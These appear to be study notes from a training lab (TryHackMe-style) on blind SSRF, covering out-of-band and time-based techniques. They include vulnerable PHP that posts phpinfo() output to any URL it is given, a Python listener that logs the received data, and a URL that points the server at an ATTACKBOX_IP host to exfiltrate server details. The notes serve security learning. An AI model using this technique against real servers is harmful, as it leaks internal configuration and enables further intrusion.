 Blind SSRF refers to a scenario where the attacker can send requests to a target server, but they do not receive direct responses or feedback about the outcome of their requests. In other words, the attacker is blind to the server's responses. This type of SSRF can be more challenging to exploit because the attacker cannot directly see the results of their actions. We will discuss its various examples.

## Out-Of-Band
Out-of-band SSRF is a technique where the attacker leverages a separate, out-of-band communication channel instead of directly receiving responses from the target server to receive information or control the exploited server. This approach is practical when the server's responses are not directly accessible to the attacker.

For instance, the attacker might manipulate the vulnerable server to make a DNS request to a domain he owns or to initiate a connection to an external server with specific data. This external interaction provides the attacker with evidence that the SSRF vulnerability exists and potentially allows him to gather additional information, such as internal IP addresses or the internal network's structure.

- Once again, log in to the dashboard and click on the `Profile` tab in the navigation bar. We will see that it redirects to `http://hrms.thm/profile.php?url=localhost/getInfo.php`, which displays a message that data is being sent.
	![](Pasted%20image%2020250118221653.png)
- What is happening here? Once we load `profile.php`, it sends data to an external page named `getInfo.php`, which is probably used for analytics or logs.

```php
<?php
...
$targetUrl = $_GET['url'];
ob_start();
ob_start();
phpinfo();
$phpInfoData = ob_get_clean();
$ch = curl_init($targetUrl); 
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS,$phpInfoData);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$response = curl_exec($ch); 
...
?>
```

- Source code analysis of the page shows that it is reading `url` parameters, and without performing any validation, it sends the information to the server mentioned in the `url` parameter. 
- Here, an attacker can redirect the request to their server, thus getting additional information for exploitation or data pilferage. 

 On your AttackBox, create a new file called `server.py` and add the following code to it:

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
    # Allow requests from any origin
        self.send_header('Access-Control-Allow-Origin', '*')  
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

- The above code will receive all the content and save it to a file data.html on the server. To obtain the data, we first need to start a lightweight server. We can do this in `AttackBox` by using the following commands:

```shell-session
thm@machine$ sudo chmod +x server.py && sudo python3 server.py
```

- Now open the browser and open `http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080`, which will log the data in the `data.html`. Open the `data.html` file, which contains all the essential information related to the server that can be used to launch further attacks.
	![](Pasted%20image%2020250118222937.png)

## Time-based
Time-based SSRF is a variation of SSRF where the attacker leverages timing-related clues or delays to infer the success or failure of their malicious requests. By **observing how long it takes for the application to respond**, the attacker can make educated guesses about whether their SSRF attack was successful. 

The attacker sends a series of requests, each targeting a different resource or URL. The attacker measures the response times for each request. If a response takes significantly longer, it may indicate that the server successfully accessed the targeted resource, implying a successful SSRF attack.
